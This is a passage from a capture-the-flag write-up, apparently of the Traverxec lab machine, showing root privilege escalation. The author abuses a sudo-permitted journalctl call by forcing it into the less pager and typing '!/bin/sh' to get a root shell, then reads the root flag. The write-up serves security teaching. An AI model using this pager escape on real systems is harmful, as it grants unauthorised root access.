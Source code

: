 Next I look at the shell script highlited above. Running the script prints some
of the webserver log, but most importantly does **not** require a password to do
it. Now we look at the code and see why.
<pre>
david@traverxec $ cat /home/david/bin/server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
</pre>

As you can see `david` allowed himself to run `journalctl` as `root`. Sadly for
him `journalctl` calls a pager if it's output does not fit inside the terminal.
Thus we make our terminal window tiny, and run the `journalctl` command.
<pre>
david@traverxec $ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
</pre>

Now we have `less` running as `root` under our control. Since it has a convenient
`vim`-like command execution feature we just type `!/bin/sh` and we have a `root`
shell. Now we just `cat` the root flag and we are done ;)
<pre>
travrexec # cat /root/root.txt
root_flag_here
</pre>
